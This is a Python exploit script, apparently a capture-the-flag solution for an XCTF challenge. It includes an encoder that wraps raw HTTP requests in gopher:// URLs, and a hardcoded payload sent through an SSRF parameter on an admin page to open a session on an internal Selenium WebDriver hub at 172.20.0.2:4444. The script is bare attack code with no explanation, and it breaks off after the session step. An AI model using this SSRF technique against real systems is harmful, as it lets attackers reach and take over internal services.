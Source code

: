 ```python
# coding:utf-8
import requests
import json
import os
import urllib
import base64

BASE_DIR = (os.path.dirname(os.path.realpath(__file__)))
base_url = "http://seafaring.xctf.org.cn:9999"
session = requests.Session()
proxies = {
	#"http": "http://127.0.0.1:8080"
	}


def encode(origin):
    """ SSRF HTTP 编码 :param origin: :return: """
    tmp = urllib.quote(origin)
    # print tmp
    new = tmp.replace('%0A', '%0D%0A')
    # print new
    result = '_' + urllib.quote(new)
    result = "gopher://172.20.0.2:4444/" + result
    # print result
    return result


def read_file(filename):
    filename = BASE_DIR + '/exp2/' + filename
    with open(filename, 'r') as f:
        data = f.read()
    return data


def get_session():
    payload = read_file('1')
    # print(payload)
    payload = encode(payload)
    print('Payload1 start...\n\n')
    print(payload)
    print('Payload1 end...\n\n')
    session = requests.Session()
    paramsPost = {
        "You_cann0t_guu3s_1t_1s2xs": "gopher://172.20.0.2:4444/_POST%20/wd/hub/session%20HTTP/1.1%0D%0AHost%3A%20172.20.0.2%3A4444%0D%0AConnection%3A%20close%0D%0AAccept%3A%20application/json%3B%20charset%3Dutf-8%0D%0AUser-Agent%3A%20Mozilla/5.0%20%28Android%209.0%3B%20Mobile%3B%20rv%3A61.0%29%20Gecko/61.0%20Firefox/61.0%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Cen-US%3Bq%3D0.5%2Cen%3Bq%3D0.3%0D%0ADNT%3A%201%0D%0AReferer%3A%20http%3A//172.20.0.2%3A4444/wd/hub/static/resource/hub.html%0D%0AContent-Type%3A%20text/plain%3Bcharset%3DUTF-8%0D%0AContent-Length%3A%2049%0D%0A%0D%0A%7B%22desiredCapabilities%22%3A%7B%22browserName%22%3A%22firefox%22%7D%7D"}
    headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0",
               "Connection": "close", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "DNT": "1",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post(base_url + "/admin/m0st_Secret.php", data=paramsPost,
                            headers=headers, proxies=proxies)
    print("Status code: %i" % response.status_code)
    print("Response body: %s" % response.content)
    data = response.content.split('"sessionId": "')[1].split('",')[0]
    return data

```